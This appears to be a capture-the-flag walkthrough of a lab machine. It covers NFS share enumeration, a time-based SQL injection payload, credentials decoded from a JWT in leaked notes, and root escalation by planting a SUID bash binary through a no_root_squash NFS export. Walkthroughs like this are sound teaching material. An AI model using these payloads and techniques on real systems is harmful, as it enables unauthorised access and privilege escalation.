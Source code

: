 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f89ed107-9c60-4972-b2d3-a96ea103318e)

## First enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Wed Jul 10 22:48:16 2024 as: nmap -sCV -T4 -Pn -p 22,111,2049,39437,42675,44459,50985 -oN service.txt 10.150.150.59
Nmap scan report for 10.150.150.59
Host is up (0.15s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.4p1 Ubuntu 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b3:f2:84:ff:e7:34:ab:88:d6:77:16:b9:a7:01:b6:a0 (RSA)
|   256 00:4f:42:d3:20:0c:b8:3b:81:20:d7:b7:1a:d2:df:65 (ECDSA)
|_  256 dc:e6:e6:e3:22:d8:b8:82:bd:97:46:3e:27:d9:a6:2e (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34508/udp   mountd
|   100005  1,2,3      44459/tcp   mountd
|   100005  1,2,3      47131/udp6  mountd
|   100005  1,2,3      56261/tcp6  mountd
|   100021  1,3,4      37945/udp6  nlockmgr
|   100021  1,3,4      39437/tcp   nlockmgr
|   100021  1,3,4      40832/udp   nlockmgr
|   100021  1,3,4      42923/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
39437/tcp open  nlockmgr 1-4 (RPC #100021)
42675/tcp open  mountd   1-3 (RPC #100005)
44459/tcp open  mountd   1-3 (RPC #100005)
50985/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 10 22:48:29 2024 -- 1 IP address (1 host up) scanned in 13.15 seconds
```


## Enumerating NFS share pport 2049

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ showmount -e 10.150.150.59                                                    
Export list for 10.150.150.59:
/nfsroot *
```
we can see the nfs share `/nsfroot`. let's mmount the share 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ sudo mount -t nfs 10.150.150.59:/nfsroot mnt 
                                                                                                                                                                       
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ ls -al mnt 
total 16
drwxr-xr-x 2 root root 4096 Dec 29  2023 .
drwxr-xr-x 2 root root 4096 Dec 29  2023 ..
-rwxrwxrwx 1 root root   41 Dec 29  2023 FLAG1
-rw-r--r-- 1 root root  616 Nov 17  2021 notes.txt
```
mounting the nfs share, we got a flag and note.txt


> checking the content of notes.txt

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ cat notes.txt 
__INTERNAL PENTEST OF WEBAPP @ CLIENT01.PTD__

VULNS:
---

Logout via GET allowed

---

robots.txt -> check, admin page noted

---

SQLI in the main.php parameter id, time based:
?id=1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)

---

No serverside check of auth data, simply parsed from client-submitted string, checked with POC:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM

---

X-Frame-Options + X-XSS-Protection headers not set

---

tocheck:

...
```


> Analyzing the jwt token

```js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a604dbb6-343a-4088-9cf0-2a228eadf1f1)

using jwt.io do decode the jwt token, we can see username and password `jessy:7?Jnv2B9@E$w`


> Trying ssh with creds found

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/465210c7-cb84-45ee-819e-dbebe2048884)

login ssh successfully



## Privilege Escalation 

> Running linpeas

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcb64cb8-a00e-4f00-914b-3f934d628539)

 Read the /etc/exports file, we can see the directory that is configured as no_root_squash, then we can access it from as a client and write inside that directory as if you were the local root of the machine.

> Refreshing on NFS dir permissions

- rw: This option gives the client computer both read and write access to the volume.
- sync: This option forces NFS to write changes to disk before replying. This results in a more stable and consistent environment but reduces the speed of file operations.
- inescure: This option allows clients to use any port to access NFS shares.
- no_subtree_check: This option prevents subtree checking, which is a process where the host must check whether the file is actually still available in the exported tree for every request.
- no_root_squash: This option allows privileged file writes inside the share. By default, NFS translates requests from a root user remotely into a non-privileged user on the server.


> Let's exploit this misconfiguration

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/57c02526-653d-4591-935d-22557e7b51ff)

create a dir on our target

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4fa1d9f8-5243-444c-a141-117f9c02d49c)

tried using the directory created but failed, so we used the same one we use to get the note.txt file

> Creating suid bash in the nfs folder 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9668db2c-5423-491b-b095-444e2cb4cd30)

create suid bash binary inside the nfs share directory 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d79ae20f-1b1d-40bc-99a1-90e3376e16a2)

back to jessy ssh and navigate to the `/nfsroot` directory, we can see the suid binary 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/aba5a083-6b74-416d-bdfe-d31df6d33d31)

got an error, the lib required is not found, let's try compile our own 


> creating malicious binary

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fad51ce9-fde4-483a-8b17-13b98ab03028)

first download the target already made binary 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ab681b58-4cb9-42cc-a317-71cc6c28e1c0)

download into our attacker machine

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e50ded46-a6a8-4dfe-acb6-13b0059aaf2a)

make it suid and let's try again 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2a53b2d3-c4eb-410b-ab63-12bc64ad55c2)

try again and we are freaking root!!! 💀 easy box ain't it?

